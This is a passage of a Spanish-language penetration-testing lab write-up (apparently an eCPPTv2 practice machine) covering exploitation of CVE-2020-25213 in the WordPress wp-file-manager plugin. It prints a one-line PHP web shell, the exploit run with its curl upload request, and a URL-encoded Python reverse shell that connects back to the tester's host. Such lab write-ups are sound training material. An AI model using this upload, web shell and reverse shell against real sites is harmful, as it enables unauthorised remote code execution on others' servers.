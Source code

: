 ```bash

[+] Finished: Mon Mar  6 09:30:39 2023
[+] Requests Done: 102637
[+] Cached Requests: 8
[+] Data Sent: 28.722 MB
[+] Data Received: 26.056 MB
[+] Memory used: 383.711 MB
[+] Elapsed time: 00:01:20
```

Dada la información recopilada se buscaron vulnerabilidades de los plugins identificados encontrado el CVE-2020-25213 en `wp-file-manager`.

## Explotación

#### Pasos previos | Preparación

Se encontró un [exploit público](https://github.com/mansoorr123/wp-file-manager-CVE-2020-25213/blob/main/wp-file-manager-exploit.sh) para validar la vulnerabilidad y explotarla. Previamente preparando el siguiente código en php para ejecutar comandos en la máquina, dado que la vulnerabilidad permite subir archivos.

```php
<?php system($_GET["cmd"]);?>
```

#### Ejecución

```bash
└─$ bash exp.sh --wp_url http://192.168.111.175/blog -f $(pwd)/evil.php --verbose

============================================================================================
wp-file-manager wordpress plugin Unauthenticated RCE Exploit    By: Mansoor R (@time4ster)
============================================================================================

curl POC :
curl -ks --max-time 5 --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.90 Safari/537.36" -F "reqid=17457a1fe6959" -F "cmd=upload" -F "target=l1_Lw"  -F "mtime[]=1576045135" -F "upload[]=@//home/srrequiem/Documents/ecpptv2_lab/1_aragog/exploits/evil.php" "http://192.168.111.175/blog/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"

[+] W00t! W00t! File uploaded successfully.
Location:  /blog/wp-content/plugins/wp-file-manager/lib/php/../files/evil.php
```

Accediendo a la url por medio de la url `http://192.168.111.175/blog/wp-content/plugins/wp-file-manager/lib/files/evil.php` permitiendo entablar una reverse shell con:

```text
http://192.168.111.175/blog/wp-content/plugins/wp-file-manager/lib/files/evil.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.111.162%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```
